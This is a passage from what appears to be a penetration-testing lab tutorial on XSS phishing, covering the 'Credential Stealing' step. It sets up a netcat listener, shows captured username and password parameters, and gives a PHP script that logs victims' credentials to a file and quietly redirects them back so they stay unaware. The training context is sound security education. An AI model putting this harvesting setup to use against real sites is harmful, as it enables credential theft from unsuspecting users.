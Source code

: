 ***

### Credential Stealing

Finally, we come to the part where we steal the login credentials when the victim attempts to log in on our injected login form. If you tried to log into the injected login form, you would probably get the error `This site can’t be reached`. This is because, as mentioned earlier, our HTML form is designed to send the login request to our IP, which should be listening for a connection. If we are not listening for a connection, we will get a `site can’t be reached` error.

So, let us start a simple `netcat` server and see what kind of request we get when someone attempts to log in through the form. To do so, we can start listening on port 80 in our Pwnbox, as follows:

```shell-session
smoothment@htb[/htb]$ sudo nc -lvnp 80
listening on [any] 80 ...
```

Now, let's attempt to login with the credentials `test:test`, and check the `netcat` output we get (`don't forget to replace OUR_IP in the XSS payload with your actual IP`):

```shell-session
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```

As we can see, we can capture the credentials in the HTTP request URL (`/?username=test&password=test`). If any victim attempts to log in with the form, we will get their credentials.

However, as we are only listening with a `netcat` listener, it will not handle the HTTP request correctly, and the victim would get an `Unable to connect` error, which may raise some suspicions. So, we can use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections. In this case, the victim may think that they successfully logged in and will use the Image Viewer as intended.

The following PHP script should do what we need, and we will write it to a file on our VM that we'll call `index.php` and place it in `/tmp/tmpserver/` (`don't forget to replace SERVER_IP with the ip from our exercise`):

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Now that we have our `index.php` file ready, we can start a `PHP` listening server, which we can use instead of the basic `netcat` listener we used earlier:

```shell-session
smoothment@htb[/htb]$ mkdir /tmp/tmpserver
smoothment@htb[/htb]$ cd /tmp/tmpserver
smoothment@htb[/htb]$ vi index.php #at this step we wrote our index.php file
smoothment@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```
